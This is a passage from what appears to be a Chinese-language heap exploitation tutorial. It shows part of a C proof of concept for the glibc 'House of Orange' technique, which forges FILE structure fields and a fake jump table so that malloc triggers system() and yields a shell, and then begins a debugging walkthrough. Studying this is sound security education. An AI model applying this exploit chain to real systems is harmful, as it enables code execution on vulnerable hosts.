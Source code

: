 ```plain
      1. Set mode to 0: fp->_mode <= 0
    */

    fp->_mode = 0; // top+0xc0


    /*
      2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
    */

    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28


    /*
      4) Finally set the jump table to controlled memory and place system there.
      The jump table pointer is right after the FILE struct:
      base_address+sizeof(FILE) = jump_table

         4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
    */

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8


    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);

   /*
     The libc's error message will be printed to the screen
     But you'll get a shell anyways.
   */

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

### 编译调试

#### 第一步：House of orange

首先申请了一块 chunk
